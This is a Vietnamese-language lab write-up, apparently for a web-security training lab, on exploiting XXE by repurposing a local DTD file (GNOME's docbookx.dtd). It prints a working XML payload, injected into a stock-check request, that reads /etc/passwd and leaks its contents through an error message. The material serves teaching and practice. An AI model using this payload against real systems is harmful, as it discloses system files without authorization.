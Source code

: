 ## Exploiting XXE to retrieve data by repurposing a local DTD

Ở phần description của Lab chúng ta có thể hiểu rằng, chúng ta phải trigger một thông báo lỗi bằng việc sử dụng 1 file dtd có sẵn trong hệ thống.

![](/imgs/XXE/27.png?raw=true)

Trong hệ thống linux GNOME sẽ có file docbookx.dtd với entity là ISOamso

![](/imgs/XXE/28.png?raw=true)

> Ngoài ra vẫn còn nhiều loại khác: [https://github.com/GNOME/yelp/blob/master/data/dtd/docbookx.dtd](https://github.com/GNOME/yelp/blob/master/data/dtd/docbookx.dtd)

Chúng ta tiến chèn đoạn XML vào request checkStock

> % dtd sẽ execute tới đường dẫn docbookx chứa định dạng ISOamso để hỗ trợ chạy cho các lệnh tiếp theo.

> % file sẽ lấy nội dung file passwd

> % eval sẽ in ra nội dung của file

```XML
<!DOCTYPE message [
<!ENTITY % dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///invalid/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;'> %dtd; ]>
```

Vẫn tương tự như lab trước, chúng ta sẽ nhận được lỗi kèm nội dung của file

![](/imgs/XXE/29.png?raw=true)
![](/imgs/XXE/30.png?raw=true)

### Tài Liệu Tham Khảo
- Một số CheatSheet: [https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html](https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html)